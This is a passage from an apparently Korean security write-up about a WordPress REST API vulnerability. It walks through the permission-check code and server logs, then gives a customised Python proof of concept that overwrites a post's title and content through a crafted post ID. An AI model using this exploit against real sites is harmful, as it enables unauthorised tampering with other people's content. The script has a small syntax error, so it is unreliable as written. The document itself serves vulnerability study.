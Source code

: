 ```php
    if ( ! empty( $request['author'] ) && get_current_user_id() !== $request['author'] && ! current_user_can( $post_type->cap->edit_others_posts ) ) {
        return new WP_Error( 'rest_cannot_edit_others', __( 'Sorry, you are not allowed to update posts as this user.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! empty( $request['sticky'] ) && ! current_user_can( $post_type->cap->edit_others_posts ) ) {
        return new WP_Error( 'rest_cannot_assign_sticky', __( 'Sorry, you are not allowed to make posts sticky.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! $this->check_assign_terms_permission( $request ) ) {
        return new WP_Error( 'rest_cannot_assign_term', __( 'Sorry, you are not allowed to assign the provided terms.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    return true;
}
```

실제 Exploit Code를 실행하고 게시물의 내용이 변경되는 것을 확인한 후 실제 권한 체크를 하는 로직을 어떻게 우회가 가능한지 확인하기 위해 서버의 로그로 확인해보았습니다.

<figure>
  <img data-action="zoom" src='{{ "/assets/images/web/0x01_8.png" | relative_url }}'>
  <figcaption><center>[그림 1-8]
  update_item_permissions_check 로그 결과
</center></figcaption>
</figure>
<br>

실제 Exploit Code를 실행하면서 권한체크 부분에 대한 값들이 NULL과 true로 결과가 나오는 것을 확인하였으며 존재하지 않는 게시물, request 속성 값들이 NULL 인것을 확인하였고 if문 비교 피연산자들이 false 결과를 나타내며 권한체크 로직이 true의 결과가 나오는 것을 확인할 수 있었습니다.

Exploit-DB에 공개된 해당 취약점 POC코드를 분석하고 간단하게 커스텀마이징하여 아래와 같은 코드로 공격으로 사용할 수 있습니다.

```python
import json                        
import requests
 
title = raw_input("Title Input")
content = raw_input("Content Input:")
 
url = "http://IP/wordpress/index.php/wp-json/wp/v2/posts/4/?id=4abc" 
                       
data=json.dumps(
{        "title":title
        "content":content
})
 
headers = {
'content-Type':"application/json"
}
 
res = requests.post(url,data=data,headers=headers)
print res.content  

```
